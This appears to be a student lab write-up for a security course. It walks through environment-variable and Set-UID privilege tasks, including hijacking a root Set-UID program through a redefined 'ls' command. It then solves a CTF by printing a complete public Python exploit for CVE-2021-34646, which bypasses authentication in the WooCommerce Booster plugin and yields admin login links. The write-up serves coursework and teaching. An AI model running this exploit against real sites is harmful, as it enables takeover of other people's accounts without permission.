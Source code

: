 # Trabalho realizado na Semana #4
## Task 1
After opening a shell we type the command `printenv` and it shows all the environment variables:
- ![Task1-1](/Images/Week4/Task1-1.png "Task1-1")

Then we try a different command `export`:
- ![Task1-2](/Images/Week4/Task1-2.png "Task1-2")

## Task 2
We started by compiling `myprintenv.c` with 
- `$gcc myprintenv.c` which gerenated a binary called `a.out`.

Then we runned it and saved the output into a file using:
- `a.out > file`

After commenting out the `printenv()` statement in the child process case, and uncomment the `printenv()` statement in the parent process case we redid the first steps.
- `$gcc myprintenv.c`
- `a.out > file2`

This time we called the file `file2` so we could use the command 
- `diff file file2`
- ![Task2-3](/Images/Week4/Task2-3.png "Task2-3")

Which showed us that there are not any differences between the father and child variables because the child process inherited all his father's variables.

## Task 3
We start by executing what is descripted in the guide:
- Compile the file that includes the given program and execute it
- ![Task3](/Images/Week4/Task3-1.png "Task3-1")

Then we change one line on the`myenv.c` file as showned:
- ![Task3-2-1](/Images/Week4/Task3-2-1.png "Task3-2-1")
- ![Task3-2-2](/Images/Week4/Task3-2-2.png "Task3-2-2")

Lastly recompile this file and execute it:
- ![Task3-2](/Images/Week4/Task3-2.png "Task3-2")

## Task4 
After creating the file with the given code, we compiled and executed it as showned:
- `gcc task4.c -o task4`
- `./task4`
- ![Task4](/Images/Week4/Task4.png "Task4")

## Task 5
After creating the file with the given code, we compiled it and executed the following commands:
- `gcc task5.c -o task5`
- `sudo chown root task5`
- `sudo chown 4755 task5`
- `export LD_LIBRARY_PATH=0`
- `export ANY_NAME=A`

With this the new variables are presented when we run `./task5`

## Task 6
We start by executing what is descripted in the guide:
- Compile the file that includes the given program
- Change it's ownership to root using `sudo chown root <filepath/filename>`
- Become root user using `sudo -i`
- Make the program a SET-UID program by using `chmod u+s <filepath/filename>`
- Logout to a common user using `logout`

Now we can run malicious code by replacing the ls command and or by redirecting the shell program to execute another malicious command named cmd, per example:
"#!/bin/bash

function ls() {
  echo 'You have been hacked!'
}"

![Hack](/Images/Week4/Hack.PNG "Hack")

As the program is SET-UID and the program owner is the root, the program will run with root privileges, accounting that /bin/sh links to /bin/zsh instead of /bin/dash, so the `sudo ln -sf /bin/zsh /bin/sh` is needed.

<br>

## CTF
### Resolution

#### Recognition:

- Wordpress version and plugins:

![Recognition](/Images/Week4/CTF4/Recognition.PNG "Recognition")

- Possíveis utilizadores e nomes de utilizadores:

![Users](/Images/Week4/CTF4/Users.PNG "Users")

#### Vulnerability choice

We found the CVE-2021-34646 for the version 5.4.3 Boster for Wordpress that we choose as the vulnerability to attack.

#### Exploit

For the CVE choosen we found the following exploit:

```python
# Exploit Title: WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass
# Date: 2021-09-16
# Exploit Author: Sebastian Kriesten (0xB455)
# Contact: https://twitter.com/0xB455
#
# Affected Plugin: Booster for WooCommerce
# Plugin Slug: woocommerce-jetpack
# Vulnerability disclosure: https://www.wordfence.com/blog/2021/08/critical=-authentication-bypass-vulnerability-patched-in-booster-for-woocommerce/
# Affected Versions: <= 5.4.3
# Fully Patched Version: >= 5.4.4
# CVE: CVE-2021-34646
# CVSS Score: 9.8 (Critical)
# Category: webapps
#
# 1:
# Goto: https://target.com/wp-json/wp/v2/users/
# Pick a user-ID (e.g. 1 - usualy is the admin)
#
# 2:
# Attack with: ./exploit_CVE-2021-34646.py https://target.com/ 1
#
# 3:
# Check-Out  out which of the generated links allows you to access the system
#
import requests,sys,hashlib
import argparse
import datetime
import email.utils
import calendar
import base64

B = "\033[94m"
W = "\033[97m"
R = "\033[91m"
RST = "\033[0;0m"

parser = argparse.ArgumentParser()
parser.add_argument("url", help="the base url")
parser.add_argument('id', type=int, help='the user id', default=1)
args = parser.parse_args()
id = str(args.id)
url = args.url
if args.url[-1] != "/": # URL needs trailing /
        url = url + "/"

verify_url= url + "?wcj_user_id=" + id
r = requests.get(verify_url)

if r.status_code != 200:
        print("status code != 200")
        print(r.headers)
        sys.exit(-1)

def email_time_to_timestamp(s):
    tt = email.utils.parsedate_tz(s)
    if tt is None: return None
    return calendar.timegm(tt) - tt[9]

date = r.headers["Date"]
unix = email_time_to_timestamp(date)

def printBanner():
    print(f"{W}Timestamp: {B}" + date)
    print(f"{W}Timestamp (unix): {B}" + str(unix) + f"{W}\n")
    print("We need to generate multiple timestamps in order to avoid delay related timing errors")
    print("One of the following links will log you in...\n")

printBanner()



for i in range(3): # We need to try multiple timestamps as we don't get the exact hash time and need to avoid delay related timing errors
        hash = hashlib.md5(str(unix-i).encode()).hexdigest()
        print(f"{W}#" + str(i) + f" link for hash {R}"+hash+f"{W}:")
        token='{"id":"'+ id +'","code":"'+hash+'"}'
        token = base64.b64encode(token.encode()).decode()
        token = token.rstrip("=") # remove trailing =
        link = url+"my-account/?wcj_verify_email="+token
        print(link + f"\n{RST}")
```
Then ran it:

![Command](/Images/Week4/CTF4/Command.jpeg "Users")

After clicking in the first link we were logged in the admin account:

[Success](/Images/Week4/CTF4/Success.jpeg "Success")

Finally we accessed the link http://ctf-fsi.fe.up.pt:5001/wp-admin/edit.php and took the flag:

[Flag](/Images/Week4/CTF4/Flag.jpeg "Flag")
